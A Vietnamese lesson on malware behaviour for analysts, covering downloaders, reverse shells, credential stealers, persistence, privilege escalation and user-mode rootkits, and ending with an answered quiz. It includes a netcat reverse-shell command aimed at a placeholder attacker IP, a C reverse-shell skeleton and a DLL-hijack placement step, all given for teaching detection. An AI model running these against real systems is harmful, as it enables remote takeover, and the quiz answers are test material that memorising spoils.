









# Bài 5: Malware Behavior

---

## 1. Downloaders & Launchers

Hai loại malware đầu tiên trong chuỗi tấn công — chúng không phải "vũ khí chính" mà là **cửa ngõ** đưa vũ khí vào hệ thống.

### Khái niệm & lý thuyết

- **Downloader**: Malware tải thêm malware khác từ internet về máy nạn nhân rồi thực thi. Thường dùng Windows API `URLDownloadToFileA` + `WinExec`.
- **Launcher (Loader)**: Chuẩn bị và thực thi malware đã có sẵn — có thể ngay lập tức hoặc theo điều kiện. Thường giấu payload trong vùng ít ngờ tới như section `.rsrc` của PE file, dùng API: `FindResource`, `LoadResource`, `SizeofResource`.
- **Staged payload**: Dropper nhỏ → beacon về C2 → tải Stage 2 vào memory. Ưu điểm: payload chính không lưu trên disk.
- **Stageless payload**: Toàn bộ shellcode/payload nằm trong file ban đầu. Đơn giản hơn, dễ phát hiện hơn.

### Cách hoạt động / Luồng xử lý



!!! note "Loader ngày nay"
    Sau khi Microsoft siết chặt Office macros, loader thường đến qua: file ISO chứa LNK + DLL, file ZIP, HTML Application (HTA), hoặc LOLBins như `rundll32.exe`, `regsvr32.exe`, `mshta.exe`.

### Ví dụ thực tế & Analogy

**Ví dụ thực tế:** CoffeeLoader — loader hiện đại dùng kỹ thuật "call stack spoofing" để né AV, tải Rhadamanthys stealer vào memory mà không ghi xuống disk.

**Analogy:** Downloader giống **người giao hàng** — bản thân họ vô hại, nhưng kiện hàng họ mang đến mới là vấn đề. Staged payload giống giao hàng theo nhiều chuyến: chuyến 1 giao địa chỉ kho, chuyến 2 mới giao vũ khí thật.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! warning "Nhầm lẫn thường gặp"
    Nhiều người nghĩ "file nhỏ = ít nguy hiểm". Sai! Downloader chỉ vài KB nhưng có thể kéo về ransomware hàng MB. **Kích thước file không liên quan đến mức độ nguy hiểm.**

!!! danger "Staged vs Stageless trong forensics"
    Staged payload **không để lại dấu vết trên disk** (chạy in-memory) → khó phát hiện qua antivirus truyền thống. Cần memory forensics (Volatility, etc.).

### Câu hỏi thực tế

1. Bạn phân tích một file `.lnk` đáng ngờ trong email. File này gọi `mshta.exe` với một URL. Đây là loại malware gì? Bước tiếp theo của bạn là gì?
2. IDS cảnh báo một máy trong mạng nội bộ đang kết nối ra ngoài theo chu kỳ đều đặn 60 giây. Điều này gợi ý điều gì về loại payload đang chạy?

---

> 💡 **Chốt nhanh:** Downloader tải malware về, Launcher thực thi nó. Staged payload nguy hiểm hơn vì chạy hoàn toàn trong memory, không ghi file xuống disk.

---

## 2. Backdoors & Reverse Shells

Sau khi xâm nhập, attacker cần **duy trì quyền điều khiển** — đó là nhiệm vụ của backdoor.

### Khái niệm & lý thuyết

- **Backdoor**: Cung cấp remote access tới máy nạn nhân. Là loại malware **phổ biến nhất**. Thường giao tiếp qua HTTP port 80 để lẫn vào traffic hợp lệ.
- **Reverse Shell**: Máy nạn nhân **chủ động kết nối ra** phía attacker (không phải attacker kết nối vào). Vượt qua firewall vì chiều kết nối từ trong ra ngoài thường được cho phép.
- **RAT (Remote Administration Tool)**: Backdoor nâng cao với nhiều chức năng: chụp màn hình, keylog, upload/download file, lateral movement. Giao tiếp qua port 80/443.
- **Botnet**: Mạng lưới hàng ngàn máy bị kiểm soát đồng thời bởi C2 server. Dùng cho DDoS, spam, phát tán malware hàng loạt.

### So sánh RAT vs Botnet

| Tiêu chí | RAT | Botnet |
|---|---|---|
| Số máy bị kiểm soát | Ít (targeted) | Rất nhiều (mass) |
| Điều khiển | Từng máy một | Tất cả cùng lúc |
| Mục tiêu | Đánh cắp thông tin | DDoS, spam |
| Ví dụ | Cobalt Strike, njRAT | Mirai, Zeus |

### Cách hoạt động — Windows Reverse Shell



**Hai kiểu implement trên Windows:**

=== "Basic"
    ```c
    // Tạo socket → kết nối attacker
    SOCKET theSocket = socket(...);
    connect(theSocket, &conaddr, ...);
    
    // Gán socket vào stdin/stdout/stderr của cmd.exe
    startupInfo.hStdInput = startupInfo.hStdOutput 
                          = startupInfo.hStdError 
                          = (HANDLE)theSocket;
    
    // Spawn cmd.exe ẩn
    CreateProcessA(NULL, "cmd.exe", ..., &startupInfo, ...);
    ```

=== "Multithreaded"
    ```
    Socket ←→ Pipe stdin ←→ cmd.exe ←→ Pipe stdout ←→ Socket
    
    Thread 1: đọc stdin pipe → ghi socket (encode data)
    Thread 2: đọc socket → ghi stdout pipe (decode data)
    
    API cần tìm: CreateThread, CreatePipe
    ```

### Ví dụ thực tế & Analogy

**Ví dụ:** Netcat reverse shell cổ điển:
```bash
# Attacker lắng nghe:
nc -l -p 80

# Victim thực thi:
nc attacker_ip 80 -e cmd.exe
```

**Analogy:** Reverse shell giống **nhân viên bí mật tự gọi về tổng hành dinh** để nhận lệnh, thay vì để tổng hành dinh gọi vào (dễ bị chặn bởi firewall công ty).

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! warning "Phát hiện Multithreaded Reverse Shell"
    Với multithreaded, data có thể bị **encode** trước khi truyền qua socket. Nếu bắt được network traffic mà thấy dữ liệu không phải text rõ, cần reverse engineer routine encode/decode trong 2 thread đó.

!!! tip "Dấu hiệu nhận biết"
    Tìm `CreateProcess` + `STARTF_USESTDHANDLES` + socket creation trong cùng một flow → **rất có khả năng là reverse shell**.

### Câu hỏi thực tế

1. Bạn phân tích malware thấy `CreatePipe`, `CreateThread`, `CreateProcess`, và `WSAConnect` được gọi liên tiếp. Đây là kiểu reverse shell gì? Tại sao attacker chọn kiểu này?
2. Firewall công ty chặn mọi kết nối inbound nhưng không chặn outbound. Loại shell nào sẽ hoạt động được? Tại sao?

---

> 💡 **Chốt nhanh:** Reverse shell cho phép attacker điều khiển máy nạn nhân bằng cách để victim chủ động kết nối ra — vượt qua firewall. RAT = backdoor nâng cao, Botnet = điều khiển hàng loạt.

---

## 3. Credential Stealers

Mục tiêu cuối cùng của nhiều cuộc tấn công: **lấy được mật khẩu**.

### Khái niệm & lý thuyết

**3 phương thức đánh cắp credential:**

1. **Chờ user đăng nhập** rồi bắt credential (GINA Interception)
2. **Dump dữ liệu đã lưu**: SAM file, LSASS memory, NTDS.dit
3. **Keylogging**: ghi lại phím gõ

**Các nguồn credential trên Windows (theo MITRE ATT&CK T1003):**

| Sub-technique | Mô tả |
|---|---|
| T1003.001 LSASS Memory | Dump process lsass.exe lấy hash |
| T1003.002 SAM | Security Account Manager — lưu hash local user |
| T1003.003 NTDS | Active Directory database |
| T1003.004 LSA Secrets | Cached service account credentials |
| T1003.005 Cached Domain Credentials | Domain credentials cache |

### Cách hoạt động — GINA Interception



**Registry key cần kiểm tra:**
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL
```

### Cách hoạt động — Pwdump (Hash Dumping)



### Keystroke Logging



**Dấu hiệu nhận biết keylogger** trong strings listing:
```
[Up]  [Down]  [Left]  [Right]
[Num Lock]  [Caps Lock]  [PageDown]
[Shift]  [Enter]  [BackSpace]
```
→ Đây là các **label cho special keys** mà keylogger dùng để format output.

### Ví dụ thực tế & Analogy

**Ví dụ — Katz Stealer (2024):** Đánh cắp từ 78+ browser variants, inject DLL vào browser process qua `CreateRemoteThread`, bypass Chrome Application Bound Encryption. Với Firefox: lấy thẳng file `cookies.sqlite`, `logins.json`, `key4.db`.

**Analogy:** GINA Interception như đặt **máy photocopy bí mật** giữa két sắt và người bảo vệ — mọi chìa khóa đưa qua đều bị copy trước khi đến đích.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! danger "GINA chỉ có trên Windows XP"
    GINA (msgina.dll) tồn tại trên Windows XP. Từ Vista trở đi, Windows dùng **Credential Providers** — cơ chế khác, attack surface khác. Đừng nhầm lẫn khi phân tích malware target Windows hiện đại.

!!! warning "Dấu hiệu GINA interceptor"
    Một DLL export **nhiều hàm bắt đầu bằng `Wlx`** (>15 hàm) → rất có khả năng là GINA interceptor. Check ngay registry key GinaDLL.

### Câu hỏi thực tế

1. Bạn tìm thấy một DLL không rõ nguồn gốc với 20 exported functions, hầu hết bắt đầu bằng `Wlx`. Registry key `GinaDLL` trỏ đến DLL này. Đây là loại malware gì và nó làm gì?
2. Một máy Windows 10 bị nhiễm malware. Bạn thấy process `lsass.exe` bị một process lạ inject DLL vào. Tool nào đã được tái sử dụng ở đây, và hash thu được dùng để làm gì?

---

> 💡 **Chốt nhanh:** Credential stealers tấn công theo 3 hướng: bắt lúc nhập (GINA/keylog), lấy từ memory (LSASS/SAM), hoặc ghi phím. Hash dump không cần crack — dùng pass-the-hash là đủ để lateral movement.

---

## 4. Persistence Mechanisms

Malware muốn **sống sót qua reboot** — đây là các kỹ thuật để làm điều đó.

### Khái niệm & lý thuyết

**Persistence** = cơ chế đảm bảo malware tự khởi động lại khi hệ thống reboot hoặc user đăng nhập.

**5 kỹ thuật persistence phổ biến:**

| Kỹ thuật | Registry Key | Ghi chú |
|---|---|---|
| **Run Key** | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` | Phổ biến nhất, dễ detect |
| **AppInit_DLLs** | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows` | Load vào mọi process dùng User32.dll |
| **Winlogon Notify** | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` | Hook vào sự kiện logon/logoff |
| **SvcHost DLL** | `HKLM\SYSTEM\CurrentControlSet\Services\[Name]` | Chạy như Windows Service |
| **Scheduled Task** | Task Scheduler | Phổ biến nhất theo dữ liệu Elastic 2024 |

### Cách hoạt động — SvcHost DLL Persistence



**Tại sao SvcHost là mục tiêu?**
- Luôn có nhiều instance `svchost.exe` chạy → khó phát hiện process lạ
- Chạy với quyền cao (SYSTEM hoặc LocalSystem)
- Malware ẩn mình vào group `netsvcs` — group đông nhất, ít ai kiểm tra

### Trojanized System Binary



### DLL Load-Order Hijacking

**Search order mặc định của Windows XP:**
```
1. Thư mục của application (VD: C:\Windows\)
2. Current directory
3. System directory (C:\Windows\System32\)
4. 16-bit system directory (C:\Windows\System\)
5. Windows directory (C:\Windows\)
6. PATH environment variable
```

**Khai thác:** `explorer.exe` nằm ở `C:\Windows\` và load `ntshrui.dll` từ System32. Vì `ntshrui.dll` không trong KnownDLLs, Windows tìm từ đầu → **đặt malicious `ntshrui.dll` vào `C:\Windows\`** là xong!

### Ví dụ thực tế & Analogy

**Ví dụ thực tế (2024 data từ Elastic):** Scheduled Task (21.289 alerts) và Registry Run Keys (14.355 alerts) là 2 persistence technique phổ biến nhất trong thực tế.

**Analogy — AppInit_DLLs:** Như đặt **gián điệp vào phòng tuyển dụng** — mọi nhân viên mới (process mới load User32.dll) đều bị "nhiễm" gián điệp này ngay từ lúc vào làm.

**Analogy — DLL Hijacking:** Như giả mạo tên **nhà cung cấp đáng tin cậy** — khi công ty (application) tìm nhà cung cấp (DLL), kẻ giả mạo đứng gần cửa hơn (search order ưu tiên) nên được chọn trước.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! warning "KnownDLLs không bảo vệ hoàn toàn"
    Dù DLL nằm trong `KnownDLLs`, nếu **DLL đó load thêm DLL khác**, các DLL phụ thuộc này vẫn theo default search order → vẫn có thể bị hijack.

!!! tip "Công cụ phát hiện persistence"
    - **Autoruns (Sysinternals)**: Liệt kê tất cả auto-start locations
    - **ProcMon**: Monitor real-time registry modifications
    - **Process Explorer**: Xem ServiceDLL của từng svchost instance

!!! danger "Winlogon Notify = persistence kể cả Safe Mode"
    Đây là điểm đặc biệt nguy hiểm — malware hook vào Winlogon event có thể **boot cùng Safe Mode**, vô hiệu hóa cách recovery thông thường.

### Câu hỏi thực tế

1. Malware phân tích được thấy gọi `CreateServiceA` và ghi vào `HKLM\SYSTEM\CurrentControlSet\Services\`. Bước tiếp theo để xác nhận persistence mechanism là gì?
2. Một DLL malware được đặt trong `C:\Users\Admin\Downloads\` cùng với một ứng dụng legitimate. DLL này có tên trùng với một DLL trong System32. Kỹ thuật gì đang được dùng và điều kiện nào để nó hoạt động?

---

> 💡 **Chốt nhanh:** Persistence đảm bảo malware sống sót sau reboot. Registry Run Key là phổ biến nhất và dễ phát hiện nhất; SvcHost DLL và DLL Hijacking tinh vi hơn nhưng để lại dấu vết có thể trace được.

---

## 5. Privilege Escalation

Malware cần leo thang đặc quyền để làm những việc không được phép ở user level.

### Khái niệm & lý thuyết

**Chuỗi đặc quyền Windows:**
```
Guest < User < Administrator < System (SYSTEM)
```

- **SeDebugPrivilege**: Đặc quyền dành cho debugger, cho phép Administrator **leo lên System**. Malware dùng để gọi `CreateRemoteThread`, `TerminateProcess` trên process của system.
- **Token Manipulation**: Impersonate token của process có quyền cao hơn.
- **DLL Hijacking for PrivEsc**: Đặt DLL độc hại vào path được search bởi process **chạy với quyền cao hơn**.

### Cách hoạt động — SeDebugPrivilege



### Ví dụ thực tế & Analogy

**Ví dụ (Elastic 2024):** Token Impersonation/Theft (150.845 alerts) là sub-technique phổ biến nhất. Malware steal token của `TrustedInstaller` (150.697 alerts) để có quyền cao nhất.

**Analogy:** SeDebugPrivilege như **thẻ "kỹ thuật viên bảo trì"** tại khách sạn — bạn là nhân viên thường (Admin) nhưng với thẻ này bạn được mở mọi cửa phòng (System processes).

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! warning "Phân biệt Admin vs System"
    Nhiều sinh viên nghĩ Admin là cao nhất. Sai — **SYSTEM cao hơn Admin**. Đây là lý do malware cần `SeDebugPrivilege` dù đã chạy với quyền Admin.

---

> 💡 **Chốt nhanh:** SeDebugPrivilege là cầu nối từ Administrator lên SYSTEM. Hầu hết kỹ thuật credential dumping (inject vào lsass.exe) đều cần bước này trước.

---

## 6. User-Mode Rootkits (Covering Tracks)

Sau khi làm xong, malware cần **xóa dấu vết** và **ẩn sự hiện diện**.

### Khái niệm & lý thuyết

- **Rootkit**: Che giấu sự tồn tại của malware (process, file, network connection, registry key).
- **User-mode rootkit**: Hoạt động ở ring 3 — hook Windows API để trả về kết quả giả.
- **IAT Hooking**: Thay địa chỉ hàm trong **Import Address Table** của process bằng địa chỉ malicious code.
- **Inline Hooking**: Ghi đè trực tiếp vài byte đầu của hàm API trong DLL bằng lệnh `JMP` trỏ đến malicious code.

### Cách hoạt động — IAT vs Inline Hooking



**So sánh:**

| | IAT Hooking | Inline Hooking |
|---|---|---|
| Đối tượng thay đổi | Con trỏ trong IAT | Code bytes trong DLL |
| Phạm vi ảnh hưởng | Chỉ process đó | Tất cả process dùng DLL |
| Khó detect hơn | ❌ | ✅ |

### Ví dụ thực tế & Analogy

**Ví dụ:** Rootkit hook `NtQueryDirectoryFile` → khi Task Manager hoặc antivirus gọi hàm này để list process/file, rootkit lọc bỏ entries của malware trước khi trả về.

**Analogy — IAT Hooking:** Như thay **số điện thoại trong danh bạ** — khi ai gọi cho "Bộ phận bảo mật" (TerminateProcess), thực ra kết nối đến "Kẻ tấn công" (rootkit code) thay vì đích thật.

**Analogy — Inline Hooking:** Như **chặn trực tiếp ở cửa nhà** — dù ai có số điện thoại đúng, kẻ chặn vẫn đứng trước cửa nhà đó để kiểm soát ai vào ra.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! danger "Kernel rootkit vs User-mode rootkit"
    User-mode rootkit có thể bị phát hiện bằng cách **so sánh kết quả API với syscall trực tiếp**. Kernel rootkit (ring 0) mạnh hơn nhiều — can thiệp vào SSDT, DKOM. Chương này chỉ bàn user-mode.

---

> 💡 **Chốt nhanh:** User-mode rootkit hook Windows API để ẩn file/process/connection. IAT hooking thay pointer, Inline hooking thay code bytes. Cả hai đều làm thay đổi "sự thật" mà OS trả về cho các tool kiểm tra.

---

## 📝 Quiz — Malware Behavior

### Tầng 1 — Ghi nhớ

**Câu 1.** Windows API nào thường được Downloader dùng để tải file từ internet?

- [x] `URLDownloadToFileA` kết hợp `WinExec`
- [ ] `CreateProcessA` kết hợp `LoadLibrary`
- [ ] `FindResource` kết hợp `LoadResource`
- [ ] `WinHTTP` kết hợp `WriteFile`

??? info "Giải thích"
    Downloader dùng `URLDownloadToFileA` (từ urlmon.dll) để tải file về, sau đó `WinExec` để chạy file đó. `FindResource`/`LoadResource` là của Launcher khi lấy payload từ `.rsrc` section.

---

**Câu 2.** Section nào trong PE file thường được Launcher dùng để giấu payload?

- [x] `.rsrc` (resource section)
- [ ] `.text` (code section)
- [ ] `.data` (data section)
- [ ] `.reloc` (relocation section)

??? info "Giải thích"
    `.rsrc` section chứa resources (icon, string, dialog) — nơi ít bị kiểm tra và có thể nhồi binary payload. Launcher dùng `FindResource`, `LoadResource`, `SizeofResource` để extract payload từ đây.

---

**Câu 3.** Backdoor thường giao tiếp qua port nào để lẫn vào traffic hợp lệ?

- [x] Port 80 (HTTP)
- [ ] Port 22 (SSH)
- [ ] Port 3389 (RDP)
- [ ] Port 445 (SMB)

??? info "Giải thích"
    Port 80 (HTTP) và 443 (HTTPS) là traffic hợp lệ phổ biến nhất — firewall thường không chặn. Điều này giúp backdoor/C2 communication không bị phát hiện.

---

**Câu 4.** Điểm khác biệt chính giữa RAT và Botnet là gì?

- [x] RAT dùng cho tấn công có chủ đích (ít máy), Botnet dùng cho tấn công hàng loạt (nhiều máy)
- [ ] RAT chạy trên Windows, Botnet chạy trên Linux
- [ ] RAT dùng TCP, Botnet dùng UDP
- [ ] RAT cần user interaction, Botnet hoạt động tự động

??? info "Giải thích"
    RAT (Remote Administration Tool) được thiết kế để kiểm soát chi tiết từng máy trong targeted attack. Botnet kiểm soát hàng nghìn máy đồng thời cho các mục đích như DDoS, spam.

---

**Câu 5.** API nào được Pwdump dùng để decrypt password hash từ SAM?

- [x] `SystemFunction025` và `SystemFunction027`
- [ ] `CryptDecrypt` và `CryptImportKey`
- [ ] `BCryptDecrypt` và `BCryptOpenAlgorithmProvider`
- [ ] `LsaRetrievePrivateData` và `LsaStorePrivateData`

??? info "Giải thích"
    Pwdump variant dùng các **undocumented function** `SystemFunction025` và `SystemFunction027` từ advapi32.dll để decrypt hash. Đây là dấu hiệu đặc trưng khi phân tích malware nghi ngờ là hash dumper.

---

**Câu 6.** Registry key nào chứa GinaDLL và bị malware lợi dụng để intercept credentials?

- [x] `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL`
- [ ] `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- [ ] `HKLM\SYSTEM\CurrentControlSet\Services`
- [ ] `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`

??? info "Giải thích"
    WinLogon đọc key `GinaDLL` để load DLL xử lý authentication. Malware đặt DLL độc hại vào đây để "man-in-the-middle" toàn bộ quá trình đăng nhập.

---

**Câu 7.** Kỹ thuật keylogging nào dùng `SetWindowsHookEx`?

- [x] Hooking (event-driven)
- [ ] Polling (loop-based)
- [ ] Kernel-based
- [ ] Memory scraping

??? info "Giải thích"
    `SetWindowsHookEx` với `WH_KEYBOARD` hoặc `WH_KEYBOARD_LL` đăng ký callback được gọi mỗi khi có phím được nhấn — đây là phương pháp hooking. Polling dùng vòng lặp với `GetAsyncKeyState`.

---

**Câu 8.** AppInit_DLLs được load vào process nào?

- [x] Mọi process load User32.dll
- [ ] Chỉ process chạy với quyền SYSTEM
- [ ] Chỉ process trong nhóm svchost
- [ ] Mọi process khởi động từ HKLM\...\Run

??? info "Giải thích"
    AppInit_DLLs được `User32.dll` load khi nó được khởi tạo. Vì hầu hết ứng dụng GUI đều dùng User32.dll, đây là cách inject DLL vào gần như mọi process trên hệ thống.

---

### Tầng 2 — Hiểu & Phân tích

